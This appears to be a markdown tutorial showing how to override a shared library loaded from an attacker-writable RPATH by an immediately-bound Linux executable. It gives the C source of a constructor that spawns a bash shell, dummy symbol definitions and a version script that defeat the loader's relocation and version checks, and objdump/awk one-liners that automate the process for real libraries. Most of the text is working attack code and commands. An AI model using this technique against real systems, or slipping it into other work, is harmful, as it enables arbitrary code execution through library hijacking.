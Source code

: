 ```yaml
---
title: Overriding shared libraries in immediately-bound executables on Linux
tags: [shared, Linux, ld]
---
```


## Scenario

Imagine a vulnerable program that loads its shared libraries from a relative location (or any other path that is writable by the attacker), the common trick is to craft a shared library having the same name as one of those required by the program and include an *initializer* function that, say, drops a shell as soon as the library is loaded.

This works nicely if the program resolves the symbols *lazily* (the default), i.e., according to the program flow and not at loading time.

If that's not the case, the above attack is not feasible as the program expects all the known symbols to be present in the rogue library too[^dlopen].

As a bonus annoyance the program may expect to find version information attached to the symbols of a shared library, otherwise warnings are generated by the dynamic linker at runtime.

[^dlopen]: Note that the above doesn't apply if the shared library is loaded with `dlopen` using the `RTLD_NOW` option because the program doesn't have any compile-time knowledge of the symbols imported in that case.

## The vulnerable program

Let's start by writing a dummy vulnerable program containing all the tricks highlighted so far. The library exports a function that simply greets the caller:

```c
/* shared.c */
#include <stdio.h>

void greet() {
    printf("hello!\n");
}
```

While the program simply calls it:

```c
/* main.c */
void greet();

int main() {
    greet();
    return 0;
}
```

### Compiling the library with version information

In compiling the shared library we must add version information, this can be accomplished by creating a version script file[^ld-version] like the following:

```c
/* shared.version */
SHARED_1.0 {
    *;
};
```

And compiling with:

```console
$ gcc -fPIC -shared -Wl,--version-script=shared.version shared.c -o libshared.so
```

This basically tells the compiler to assign the `SHARED_1.0` version name to all the exported symbols in the library. We can check by inspecting the library with `objdump`:

```console
$ objdump -j .text -T libshared.so

libshared.so:     file format elf64-x86-64

DYNAMIC SYMBOL TABLE:
0000000000000710 g    DF .text	0000000000000012  SHARED_1.0  greet
```

[^ld-version]: More information [here](https://sourceware.org/binutils/docs/ld/VERSION.html).

### Compiling the program with immediate binding and custom RPATH

The program itself can be compiled with[^env-var]:

```console
$ gcc -L. -Wl,-rpath,. -Wl,-z,now -lshared main.c -o main
```

Relevant bits are:

- `-rpath,.` that sets the runtime library search path (`RPATH`) to the working directory from where the program has been run (for the sake of the example);

- `-z,now` that enables immediate binding.

Again, `objdump` allows to check that everything is as expected:

```console
$ objdump -x main | grep 'BIND_NOW\|RPATH'
  RPATH                .
  BIND_NOW             0x0000000000000000
```

[^env-var]: It is likewise possible to avoid compiler options and run the program with the `LD_BIND_NOW=0` and `LD_LIBRARY_PATH=.`environment variables set instead.

## Naive approach

The simplest attempt to override `libshared.so` requires to write something like this:

```c
/* override.c */
#include <stdio.h>
#include <unistd.h>

__attribute__((constructor))
void shell() {
    printf("Starting a new shell...\n");
    execl("/bin/bash", "/bin/bash", NULL);
}
```

If we compile the above with:

```console
$ gcc -fPIC -shared override.c -o libshared.so
```

And run the program from the same directory we obtain the following errors:

```console
$ ./main
./main: ./libshared.so: no version information available (required by ./main)
./main: relocation error: ./main: symbol greet, version SHARED_1.0 not defined in file libshared.so with link time reference
```

As previously mentioned: a warning about the lack of version information, a relocation error and our payload is not executed.

## Fixing the relocation error

Since the error is about not finding the `greet` symbol, one could simply create a dummy symbol with that name within the override library. The actual type of the symbol is not important since we plan to run our initializer (that doesn't return) even before the actual program starts.

So just adding, for example, `int greet;` to `override.c` is enough for the linker which now runs our initializer:

```console
$ ./main
./main: ./libshared.so: no version information available (required by ./main)
Starting a new shell...
$ echo $SHLVL
2
```

## Removing the warning

This is a minor point, but for the sake of completeness one could wonder how to remove the version information warning. Apparently, with the compilation settings we used, `ld` simply checks that the version name *appears* in the library[^default-version], it doesn't check that every symbol exhibits the right value, so passing the following version script to the linker is enough:

```c
/* override.version */
SHARED_1.0 {};
```

Compile as usual with:

```console
$ gcc -fPIC -shared override.c -Wl,--version-script=override.version -o libshared.so
```

Notice how the warning is gone:

```console
$ ./main
Starting a new shell...
$ echo $SHLVL
2
```

[^default-version]: Using the `-Wl,--default-symver` option is not enough, rather, it causes a fatal runtime error.

## Automating the process

Real-life shared libraries contains many symbols and possibly multiple versions, so a manual approach is not feasible. Fortunately the process can be pretty easily scripted provided that either the target program or shared library is available.

The additional symbol definitions can be obtained with:

```console
$ objdump -j .text -T libshared.so | awk 'NF == 7 { printf "int %s;\n", $7 }' | tee symbols.h
int greet;
```

Similarly for the version script:

```console
$ objdump -j .text -T libshared.so | awk 'NF == 7 { printf "%s {};\n", $6 }' | sort -u | tee override.version
SHARED_1.0 {};
```

Now simply add `#include "symbols.h"` to `override.c` and compile as before.

The same information can be similarly extracted from the program executable by looking up the undefined symbols.
